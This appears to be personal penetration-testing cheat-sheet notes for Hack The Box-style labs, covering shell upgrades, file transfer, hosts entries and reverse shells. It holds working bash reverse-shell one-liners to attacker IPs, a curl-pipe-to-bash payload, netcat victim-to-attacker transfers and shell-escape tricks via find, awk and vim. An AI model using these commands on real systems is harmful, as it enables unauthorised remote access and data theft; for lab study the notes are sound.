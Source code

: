 ## Shell
Every operating system has a shell, and to interact with it, we must use an application known as a terminal emulator.
- Like Windows Terminal, PowerShell, Command Prompt, PuTTY, GNOME Terminal, and iTerm2 etc ...
- its also often possible to install a terminal emulator on other OS

### bin/bash vs bin/shell
- at bin/shell only $ is shown
- at bin/bash the whole path is shown

### Bad Shells
- sudo -l for example dont delvier anything
- some stuff is not working well
- can happen when over exploits etc
- no tty present

#### Reasons for bad shells
- wrong shell architecture x86 vs x64
- wrong shell type (bash, sh, zsh, etc.)
- shell over exploit, includes, etc.

### Good Shells
- sudo -l delivers something
- maybe even tab completion
- print 
- meterpreter shells are also nice often

### Upgrade a shell
- metersploit can do it
- [Upgrading Simple Shells to Fully Interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) sometimes didnt work
```sh
# when commands are restricted
ssh guest@192.254.1.12 -t "bash --noprofile" # --noprofile can work

#curl a shell
echo "/bin/bash -c 'exec bash -i >& /dev/tcp/10.10.14.190/1338 0>&1'" > shell.sh
python3 -m http.server 8001
nc -lvnp 1338
curl 10.10.14.190:8001/shell.sh|bash

# phyton or phyton3 import pty
python -c 'import pty; pty.spawn("/bin/bash")'
#or 
echo os.system('/bin/bash') # or echo os.system('/bin/sh') 
#or
/bin/sh -i # or /bin/bash -i
```

### Transfer files
- httb, ftp, ssh, smb, scp, curl, wget, netcat etc
```sh
#http python server
python3 -m http.server 8000
wget http://yourip:8000/file

```
simple http put server to put from victim to attacker
- https://gist.github.com/fabiand/5628006
```sh
#windows to get a file from http server
certutil -urlcache -split -f "http://" outputfile

#curl or wget ftp or http
wget ftp:// 

#netcat
nc -l -p 1234 > out.file #receiving box
nc -w 3 [destination] 1234 < out.file #sending box destination is the ip of the receiving box

#scp
scp file user@ip:/path/to/file # sending
```

### Hosts File
echo to host file

```sh
cat

```sh
echo "10.129.108.117 thetoppers.htb" | sudo tee -a /etc/hosts
```

```sh
echo "10.129.251.52 dev.devvortex.htb" | sudo tee -a /etc/hosts
```

```sh
echo "10.129.1.27 ignition.htb" | sudo tee -a /etc/hosts
```

liste aller offenen Ports

```sh
-l: Display only listening sockets.
-t: Display TCP sockets.
-n: Do not try to resolve service names.

ss -tln

```
```sh
sudo netstat -tulnp
```

### Other Commands

#### whoami
```sh
whoami #print current user
```
#### uname
```sh
uname -a #print system information
```
#### get own ip
```sh
ip a | grep tun0 
```
#### ifconfig
```sh
ifconfig #print network information
```

#### pwd
```sh
pwd #print working directory
```

#### Differences between files
```sh
diff -y file1 file2
-y # side by side
```

#### SU & Sudo
```sh
su otheruser #switch user
sudo -l #list sudo rights
sudo su #switch to root
```

#### Locate
Suchen von Dateien
```sh
locate PowerUp.ps1
```

#### arp
```sh
arp -e # get machines the target has spoken to
```



## Reverse shells Server
- Kali contains a share folder with shell scrips
- Shell from the target to the attacker.
- possible to connect throught firewall

#### Some Reverse Shell generators / links
- [Pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [High on Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
- [Revshells](https://www.revshells.com/)

```sh
#create a listener for shell session
nc -nvlp 1337

#!/bin/bash
bash -i >& /dev/tcp/10.10.15.71/1337 0>&1

python3 -m http.server 8000
```

## Spawning interactive shells

```sh
# /bin/sh -i
/bin/sh -i
sh: no job control in this shell
sh-4.2$

# python
python -c 'import pty; pty.spawn("/bin/sh")' 

# perl
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh"; # should be run from a script.

# Ruby
ruby: exec "/bin/sh"  # should be run from a script.

# Lua
lua: os.execute('/bin/sh') # should be run from a script.

#AWK
awk 'BEGIN {system("/bin/sh")}'

# Find 
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;

# Using Exec To Launch A Shell
find . -exec /bin/sh \; -quit

# Vim To Shell
vim -c ':!/bin/sh'

# Vim Escape
:set shell=/bin/sh
:shell
```

## Execution permissions
### File Permission
```
ls -la <path/to/fileorbinary>
```
### sudo permissions
```
sudo -l
```

